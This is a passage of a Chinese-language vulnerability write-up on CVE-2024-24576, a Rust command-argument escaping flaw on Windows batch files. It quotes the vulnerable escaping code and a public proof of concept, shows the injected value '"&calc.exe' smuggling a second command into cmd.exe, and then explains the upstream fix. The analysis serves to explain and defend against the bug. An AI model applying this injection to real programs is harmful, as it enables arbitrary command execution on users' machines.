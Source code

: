 ```rust
fn append_arg() 

    for x in arg.encode_wide() {
        if escape {
            if x == '\\' as u16 {
                backslashes += 1;
            } else {
                if x == '"' as u16 {
                    // Add n+1 backslashes to total 2n+1 before internal '"'.
                    cmd.extend((0..=backslashes).map(|_| '\\' as u16));
                }
                backslashes = 0;
            }
        }
        cmd.push(x);
    }
```

在这边，错误的使用了`\\`作为过滤字符，所以同样导致了问题的出现。

这里参考[网上流传的poc](https://github.com/frostb1ten/CVE-2024-24576-PoC/blob/main/main.rs):

```rust
use std::io::{self, Write};
use std::process::Command;

fn main() {
    println!("enter payload here");
    let mut input = String::new();
    io::stdout().flush().expect("Failed to flush stdout");
    io::stdin().read_line(&mut input).expect("Failed to read from stdin");
    let output = Command::new("./test.bat")
                         .arg(input.trim())
                         .output()
                         .expect("Failed to execute command");
    println!("Output:\n{}", String::from_utf8_lossy(&output.stdout));
}
```

当我们传入`"&calc.exe`时候就能弹出计算器，此时观察命令行的参数可以看到如下的内容：

```javascript
cmd.exe /d /c ""D:\CVE-2024-24576\target\debug\test.bat" "\"&calc.exe""
```

Rust给出的[修复在这边](https://github.com/rust-lang/rust/pull/123683/files)。经分析，可以知道主要是引入了函数`append_bat_arg`，在对各种字符串做了过滤之后，假设遇到双引号，则再次插入另一个，从而阻止绕过的发生：

```rust
// Loop through the string, escaping `\` only if followed by `"`.
    // And escaping `"` by doubling them.
    let mut backslashes: usize = 0;
    for x in arg.encode_wide() {
        if x == '\\' as u16 {
            backslashes += 1;
        } else {
            if x == '"' as u16 {
                // Add n backslashes to total 2n before internal `"`.
                cmd.extend((0..backslashes).map(|_| '\\' as u16));
                // Appending an additional double-quote acts as an escape.
                cmd.push(b'"' as u16);
            }
        }
    }
```
